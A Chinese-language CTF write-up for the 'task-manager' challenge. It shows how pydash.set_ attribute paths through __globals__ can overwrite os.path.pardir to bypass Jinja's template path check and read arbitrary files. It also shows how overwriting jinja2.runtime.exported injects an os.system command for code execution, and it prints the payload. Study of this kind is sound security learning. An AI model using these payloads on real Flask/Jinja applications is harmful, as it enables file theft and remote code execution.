 # 题目信息

downgrade#0778 & IcesFont#1629

Are you constantly procrastinating real work by spending too much time on ctfs? Me too! That's why I created this lit af task manager app to help us stay on top of our duties.

[Deploy your instance here](http://instancer.idek.team/challenge/task-manager)

# 解决方案

分析源码发现用户输入通过`pydash.set_`来设置，查阅[pydash文档](https://pydash.readthedocs.io/en/latest/api.html?highlight=set_#pydash.objects.set_)，发现可以通过插入`.`来设置对象的属性，即所有属性树上的值我们都可以覆盖；

接下来就是两条路，利用上一点实现任意文件访问或者任意命令执行，首先我们关注任意文件读取；

首先从源码中发现如下部分：

```python
@app.route("/<path:path>")
def render_page(path):
    if not os.path.exists("templates/" + path):
        return "not found", 404
    return render_template(path)
```

路径我们可以控制，但是当我们设置path为`../Dockerfile`时，会报错，这个时候需要分析render_template函数的验证逻辑，一步一步跟到[Jinja框架](https://github.com/pallets/jinja/blob/36b601f/src/jinja2/loaders.py#L33)的如下函数：

```python
def split_template_path(template: str) -> t.List[str]:
    """Split a path into segments and perform a sanity check.  If it detects
    '..' in the path it will raise a `TemplateNotFound` error.
    """
    pieces = []
    for piece in template.split("/"):
        if (
            os.sep in piece
            or (os.path.altsep and os.path.altsep in piece)
            or piece == os.path.pardir
        ):
            raise TemplateNotFound(template)
        elif piece and piece != ".":
            pieces.append(piece)
    return pieces
```

发现我们只需更改os.path.pardir这一属性的值即可绕过检查；

本地测试发现TaskManger对象的`get.__globals__`属性包含如下属性：

```
['__name__', '__doc__', '__package__', '__loader__', '__spec__', '__file__', '__cached__', '__builtins__', 'pydash', 'TaskManager']
```

其中[pydash](https://github.com/dgilland/pydash/tree/master/src/pydash)是个集成库，大概率会使用到os模块，一番搜索后没找到，因此我们只能从pydash依赖的其它库中去寻找，定位到helpers模块依赖的[inspect模块](https://github.com/python/cpython/blob/3.11/Lib/inspect.py)，其中导入了os模块，因此我们的属性路径为`get.__globals__.pydash.helpers.inspect.os.path.pardir`，修改后即可绕过检查，访问任意文件，我们访问`../Dockerfile`，拿到flag。

```
idek{task_complete:capture_the_flag_0f25acc159}
```

## RCE

接下来介绍如何利用`pydash.set_`实现任意命令执行，首先，我们只能设置属性值，无法进行其它操作，因此我们只能考虑程序运行期间使用的属性值。

由于每次打开网页只会运行render_template，所以我们重点关注这个函数的调用链，跟到[compile部分](https://github.com/pallets/jinja/blob/36b601f24b30a91fe2fdc857116382bcb7655466/src/jinja2/environment.py#L766)，知道网页渲染时会运行编译函数，我们需要知道source是如何构成的，好想办法修改它。

构造source部分代码用的是[generate函数](https://github.com/pallets/jinja/blob/36b601f/src/jinja2/compiler.py#L101)，然后找到可以利用的点，为[visit_Template函数](https://github.com/pallets/jinja/blob/36b601f/src/jinja2/compiler.py#L826)，关键代码如下：

```python
        from .runtime import exported, async_exported

        if self.environment.is_async:
            exported_names = sorted(exported + async_exported)
        else:
            exported_names = sorted(exported)

        self.writeline("from jinja2.runtime import " + ", ".join(exported_names))
```

其中exported的值是我们可以修改，这部分的内容编译成python代码执行，我们可以将其改成想要执行的命令，示例如下：

```python
set_("get.__globals__.pydash.helpers.inspect.sys.modules.jinja2.runtime.exported[0]", '*;import os;os.system("cp /flag* /tmp/flag") #')
```

